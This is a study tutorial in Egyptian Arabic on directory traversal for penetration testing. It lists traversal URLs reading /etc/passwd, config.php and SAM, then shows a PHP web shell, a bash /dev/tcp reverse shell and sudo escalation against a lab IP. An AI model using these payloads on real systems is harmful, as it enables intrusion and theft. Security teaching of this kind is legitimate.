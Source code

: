 # **1. إيه هو Directory Traversal؟**

## **الشرح العميق:**
"Directory Traversal" (أو Path Traversal) هو نوع من الثغرات الأمنية في تطبيقات الويب أو الأنظمة اللي بيسمح للمهاجم يطلع برا المجلد اللي المفروض محصور فيه ويوصل لملفات تانية في النظام. بمعنى تاني، التطبيق بياخد إدخال من المستخدم (زي اسم ملف في رابط)، لكن لو ما اتفلترش صح، المهاجم يقدر يستخدم حاجات زي `../` (في لينكس) أو `..\` (في ويندوز) عشان يتحرك لمجلدات أعلى ويفتح ملفات حساسة زي `/etc/passwd` أو `C:\Windows\system32\config\SAM`.

- **كيف بيحصل؟** لو التطبيق بيستخدم دالة زي `file_get_contents()` في PHP بدون ما يتحقق من الإدخال، المهاجم يقدر يعدي المسار المحدد.
- **الهدف:** قراءة ملفات مهمة أو كتابة ملفات لو الثغرة بتسمح.

## **الأدوات والأوامر العملية:**
### 1. **فحص يدوي في الويب:**
   - لو رابط زي: `http://target.com/file?path=doc.pdf`.
   - جرب: `http://target.com/file?path=../etc/passwd` -> لو ظهر محتوى الملف، يبقى فيه Directory Traversal.

### 2. **استخدام curl:**
   - `curl http://target.com/file?path=../../etc/passwd` -> لو رجع بيانات، يبقى مفتوح.

### 3. **أدوات تلقائية:**
   - بـ Burp Suite: Intercept الطلب وعدل الـ Parameter لـ `path=../etc/passwd`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون في أوضة في بيت، بس لقيت سلم سري يطلعك لأوض تانية المفروض ماتخشّهاش! Directory Traversal يعني بتطلع برا السجن بتاعك وتشوف أسرار البيت كله."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرة دي خطيرة لأنها بتدي المهاجم وصول لملفات المفروض تكون مخفية أو محمية، وده بيفتح الباب لكذا حاجة:
- **سرقة بيانات حساسة:** زي ملفات الإعدادات (`config.php`) أو كلمات السر المشفرة (`/etc/shadow`).
- **كشف النظام:** يعرف إزاي النظام شغال (مثل إصدارات البرامج من ملفات النظام).
- **تصعيد صلاحيات:** لو قدر يكتب ملف (زي Shell)، يتحكم في السيرفر.

في الـ Pentesting، الثغرة دي كنز لأنها بتخليك تشوف حاجات المفروض محدش يشوفها وتستغلها عشان تكبر وصولك.

## **الأدوات والأوامر العملية:**
### 1. **قراءة ملفات حساسة:**
   - `http://target.com/file?path=../../../../etc/passwd` -> ملف المستخدمين في لينكس.
   - `http://target.com/file?path=..\Windows\system32\config\SAM` -> ملف كلمات السر في ويندوز.

### 2. **استغلال لكشف أكواد:**
   - `http://target.com/file?path=../var/www/html/config.php` -> لو جاب كلمة سر قاعدة البيانات.

### 3. **اختبار متعمق:**
   - بـ wfuzz:
     - `wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://target.com/file?path=../../FUZZ`.

# **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت خريطة البيت كله، تقدر تفتح أي أوضة وتاخد اللي فيها! المهاجم يلاقيها، يبقى زي اللي مسك مفتاح الخزنة."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم Directory Traversal عشان تقرأ ملفات حساسة أو تكتب ملفات لو الثغرة بتسمح، وتوصل لتحكم أكبر.
- **مثال واقعي:** لو قدرت تقرأ `/etc/passwd`، تعرف المستخدمين، ولو لقيت `config.php`، تاخد كلمة سر قاعدة البيانات.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الثغرة دي، زي ما تكون لقيت باب سري في لعبة، تفتحه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن الثغرة**
- جرب رابط ياخد Parameter:
  - `http://192.168.1.10/file?path=image.jpg`.
  - عدله: `http://192.168.1.10/file?path=../etc/passwd` -> لو ظهر الملف، يبقى فيه Directory Traversal.
- لو ما نجحش، زوّد `../`:
  - `http://192.168.1.10/file?path=../../../../etc/passwd`.

## **الخطوة 3: استغلال لقراءة ملفات**
- في لينكس:
  - `http://192.168.1.10/file?path=../../../../etc/passwd` -> تسريب المستخدمين.
  - `http://192.168.1.10/file?path=../../../../var/www/html/config.php` -> كلمة سر قاعدة البيانات.
- في ويندوز:
  - `http://192.168.1.10/file?path=..\..\Windows\system32\drivers\etc\hosts`.

## **الخطوة 4: استخدام البيانات**
- لو لقيت في `config.php`:
  - `$db_user = "root"; $db_pass = "secret123";`.
  - `mysql -u root -psecret123 -h 192.168.1.10` -> `SELECT * FROM users;`.

## **الخطوة 5: محاولة كتابة (لو ممكن)**
- لو الثغرة بتسمح بكتابة:
  - `http://192.168.1.10/file?path=../../../../var/www/html/shell.php&content=<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل الملفات اللي وصلت لها (زي `/etc/passwd` أو `config.php`).
- قدم تقرير يوضح إزاي الثغرة فتحت الباب لكل حاجة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت خرم في السقف، طلعت منه، فتحت كل الأوض، وطلعت الكبير بتاع الحتة! Directory Traversal طريقك للفوز بسهولة لو لقيتها."

---

# **الخلاصة النهائية:**
ال Directory Traversal هي ثغرة كبيرة لأنها بتخلّيك تتحرك برا الحدود وتشوف أو تعدل ملفات حساسة. في الـ Pentesting، دور عليها في الروابط باستخدام `../` أو أدوات زي Burp، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح من غير أسوار! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!





# اختبر حفظك : [[Directory Traversal (Q)]]